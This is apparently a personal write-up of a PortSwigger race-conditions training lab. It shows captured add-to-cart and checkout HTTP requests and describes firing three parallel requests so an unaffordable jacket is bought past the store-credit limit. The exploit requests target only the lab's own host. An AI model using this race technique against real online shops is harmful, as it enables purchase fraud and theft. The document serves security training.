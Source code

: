 ```yaml
---
title: Multi-endpoint race conditions
description: PortSwigger Race Conditions Lab
---
```

This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.

To solve the lab, successfully purchase a **Lightweight L33t Leather Jacket**.

You can log into your account with the following credentials: `wiener:peter`.

## Discovery
Add to cart request
```http
POST /cart HTTP/2
Host: 0a77006a041b885f808c49d300a3000e.web-security-academy.net
Cookie: session=nFmuqP0kp5NXX2joW92zrp4uWVDRIKfg
Content-Length: 36
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: https://0a77006a041b885f808c49d300a3000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a77006a041b885f808c49d300a3000e.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

productId=2&redir=PRODUCT&quantity=1
```

Checkout 
```http
POST /cart/checkout HTTP/2
Host: 0a77006a041b885f808c49d300a3000e.web-security-academy.net
Cookie: session=nFmuqP0kp5NXX2joW92zrp4uWVDRIKfg
Content-Length: 37
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: https://0a77006a041b885f808c49d300a3000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a77006a041b885f808c49d300a3000e.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=LERFbIVUr3ZiTRJyJrG5tO28O6ifbPS7
```

“Add to cart” is tied to the user session, meaning the server stores cart state per session — this opens up the possibility of race condition collisions.

## Exploit
The exploit involves three parallel requests:
1. Add a valid item to the cart (within credit limit)
2. Add a restricted item (exceeds store credit)
3. Trigger checkout
If timed correctly, the server adds the valid item to the cart and begins processing the checkout. Before the checkout is finalised, a restricted item that exceeds the user's store credit is added to the cart. Because the cart state is mutable during this window, the final purchase includes both items, allowing the user to successfully buy more than their store credit allows.

![](../../../../public/images/PS_Race_Conditions_20250613%20_155828.png)

Request 1:
```http
POST /cart HTTP/2
Host: 0a77006a041b885f808c49d300a3000e.web-security-academy.net

productId=2&redir=PRODUCT&quantity=1
```

Request 2:
```http
POST /cart HTTP/2
Host: 0a77006a041b885f808c49d300a3000e.web-security-academy.net

productId=1&redir=PRODUCT&quantity=1
```

Request 3:
```http
POST /cart/checkout HTTP/2
Host: 0a77006a041b885f808c49d300a3000e.web-security-academy.net
```

It took a couple of tries for the leather jacket to checkout. 
![](../../../../public/images/PS_Race_Conditions_20250613%20_174705.png)
